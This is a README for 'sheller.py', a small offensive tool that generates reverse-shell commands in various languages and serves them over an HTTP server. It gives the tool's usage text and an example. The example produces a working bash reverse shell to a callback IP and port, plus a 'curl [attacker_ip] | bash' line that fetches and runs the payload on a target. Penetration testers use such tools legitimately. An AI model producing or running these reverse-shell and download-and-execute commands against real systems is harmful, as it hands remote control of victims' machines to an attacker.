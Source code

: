 # Reverse shell vending machine

This is a VERY simple script that can be used to create your basic reverse-shell commands.

All of this commands can be found online, and several people like [PentestMonkey](https://github.com/pentestmonkey) have made collections of them already. This is another collection, that can be used to insert the local IP and PORT easily.


```
usage: sheller.py [-h] [-l SHELL] [-a LOCALADDR] [-p LOCALPORT] [-o OUTFILE]
                  [-s] [-i INTERFACE] [--httpserver] [--httpport HTTPPORT]

A script to generate reverse shells on various languages and serve them on
http-server.

optional arguments:
  -h, --help           show this help message and exit
  -l SHELL             Language to identify the shell to be built. Use -s to
                       see available shells.
  -a LOCALADDR         Address to connect back to
  -p LOCALPORT         Port to connect back to
  -o OUTFILE           File to write the reverse shell to
  -s                   Print available shells
  -i INTERFACE         Interface name to get ip for reverse shell script
  --httpserver         Server the reverse-shell file on a http server
  --httpport HTTPPORT  Port to start HTTP server in, default 80
  ```
  
  ## Example:

  ```
  sudo python3 sheller.py -l bash -p 8080 --httpserver -i eth4
  ```

  produces:

  ```
  bash -i >& /dev/tcp/169.254.138.91/8080 0>&1
  ```

  and serves it on http-server at all interfaces on port 80 at / http://localhost

  ```
  curl [attacker_ip] | bash
  ```

  should run the reverse shell with generated
